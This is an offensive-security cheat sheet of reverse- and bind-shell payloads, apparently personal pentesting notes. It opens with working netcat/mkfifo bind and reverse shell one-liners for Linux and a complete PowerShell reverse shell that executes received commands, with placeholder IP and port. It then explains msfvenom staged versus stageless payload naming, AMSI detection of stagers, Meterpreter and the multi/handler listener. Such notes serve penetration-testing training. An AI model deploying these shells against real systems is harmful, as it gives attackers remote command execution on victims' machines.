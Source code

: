 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. **Staged** payloads are sent in two parts. The first part is called the stager, It does not contain the payload but rather run's and downloads the payload.
Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective


2. **Stageless** payloads are more common, They are entirely self-contained in that there is one piece of code which sends a shell back immediately to the waiting listener.


## Msfvenom payload naming

 `<OS>/<arch>/<payload>`

**stageless payload** = `shell_reverse_tcp` *Stageless payloads are denoted with underscores (_)*

**Staged payload = `shell/reverse_tcp` *As staged payloads are denoted with another forward slash (/)*


This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads.

`msfvenom --list payloads | grep "linux/x86/meterpreter"


# Meterpreter 

- Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with **Windows targets**
 - If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell.
  - Downside to meterpreter shells is that they must be caught in Metasploit.


# msf multi/handler

Multi/Handler is a superb tool for catching reverse shells, easy to use for a staged payload

Use : Type `use multi/handler`, and press **enter**


